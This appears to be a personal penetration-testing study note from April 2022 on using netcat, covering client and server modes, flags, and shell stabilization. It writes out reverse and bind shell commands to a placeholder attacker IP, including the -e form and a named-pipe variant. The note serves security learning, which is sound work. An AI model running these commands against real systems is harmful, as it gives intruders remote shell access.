 # Using “netcat”

## Start a Client

```bash
nc $HOST $PORT
```

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like the following will establish a reverse shell:

```bash
nc -e /bin/bash $HOST $PORT
```

## Start a Server

```bash
nc -l -p $PORT $HOST
```

The $HOST specification here is optional; if left off, nc binds to 0.0.0.0.

Note that nc will exit once the first connection closes.

(According to the nc docs, it looks like `nc -l $HOST $PORT` should also work, but it doesn’t. I think — though I haven’t been able to verify — that what’s happening here is that `-p` specifies the port to *listen* to, while the port following the $HOST specification is the port to *connect* to.)

A netcat server doesn’t have to be used just for reverse shells. For example, you can also use it to catch web requests in conjunction with XSS or SQLi attacks.

## Useful Flags

* `-l` — listen for incoming connections (rather than make an outgoing connection)
* `-v` — verbose
* `-n` — skip DNS resolution (slightly faster, less noisy on the network)
* `-p` — specify the port to listen to
* `-u` — connect using UDP instead of TCP
* `-k` — keep listening even after client disconnects

## Example Attack Patterns

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

The `-e` switch isn’t available on many UNIX-like OSes. Working around this leads to the common named pipe pattern:

```bash
mkfifo /tmp/p; \
nc -lvnp $LISTENER_PORT < /tmp/p | \
	/bin/sh >/tmp/p 2>&1; \
rm /tmp/p
```

(Note that it’s also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications. See the discussion of msfvenom payloads for a detailed breakdown of this pattern.)

Initial netcat reverse shells (in particular web shells) are non-interactive.

### Shell “Stabilization”

Shell “stabilization” refers to the process of making a remote shell behave like a normal local shell — so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc. In practice, this generally involves creating a *second* connection from within the “unstable” shell, and then using that (keeping the first connection around just so you can restart the “stabilized” shell if you accidentally exit/kill it).

A common method of stabilizing netcat shells is to use Python:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

The `rlwrap` package will handle almost all of this for you.

```bash
rlwrap -cAr nc -lvnp $PORT
```

Or just use socat!

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

## Other Uses

If you just have netcat connect to a service directly, it functions exactly like telnet.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [TryHackMe: CC: Pen Testing](tryhackme-cc-pen-testing.md)
* [TryHackMe: Exploiting Log4j](tryhackme-exploiting-log4j.md)
* [Using Metasploit](metasploit.md)
* [Using “socat”](socat.md)
* [XSS (Cross-Site Scripting) Attacks](xss-attacks.md)
* [SQL Injection](sql-injection.md)
* [2022-03-30 ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-03-30-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)
* [Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks
<span aria-hidden="true">📅</span> April 25, 2022
